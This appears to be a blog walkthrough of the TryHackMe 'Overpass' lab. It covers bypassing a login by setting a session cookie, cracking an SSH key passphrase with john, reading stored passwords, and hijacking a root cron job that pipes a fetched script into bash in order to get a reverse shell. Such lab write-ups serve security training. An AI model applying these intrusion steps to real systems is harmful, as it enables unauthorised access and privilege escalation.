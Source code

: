```yaml
---
layout: post
title: Walkthrough - Overpass
published: true
---
```


What happens when some broke CompSci students make a password manager?

[https://tryhackme.com/room/overpass](https://tryhackme.com/room/overpass)

* * *

## Enumerate

nmap -p- -T4 10.10.198.148 -vvv



* * * 

## Exploit

- Checking the /admin page discovered using dirb we discover inspecting elements and checking login.js that we can set sessiontoken to gain access to this ssh key

![](/assets/overpass01.png)

- now that we have a user "James" and sshkey we can login to ssh
- save the rsa key and ssh2john and feed to john

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/overpass]
└─$ john james.john                                                                       
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (james.rsa)     
1g 0:00:00:00 DONE 1/3 (2022-07-14 13:13) 20.00g/s 103660p/s 103660c/s 103660C/s james.rsarsa13..rsajames.rsa13
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- ssh in
- cat user and to-do.txt to find hints
- get system password from ov

```shell
james@overpass-prod:~$ /usr/bin/overpass
Welcome to Overpass
Options:
1 Retrieve Password For Service
2 Set or Update Password For Service
3 Delete Password For Service
4 Retrieve All Passwords
5 Exit
Choose an option: 4
System   saydrawnlyingpicture
```

```shell
james@overpass-prod:~$ cat todo.txt 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

- check /etc/crontab

```shell
james@overpass-prod:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user command
17 * * * * root    cd / && run-parts --report /etc/cron.hourly
25 6 * * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6 * * 7 root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6 1 * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

- cronjob curls a script and running it as root we can probably take advantage of this

```shell
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

- edit with vim and create /downloads/src/buildscript.sh with reverse shell on attacker

![](/assets/overpass02.png)

* * * 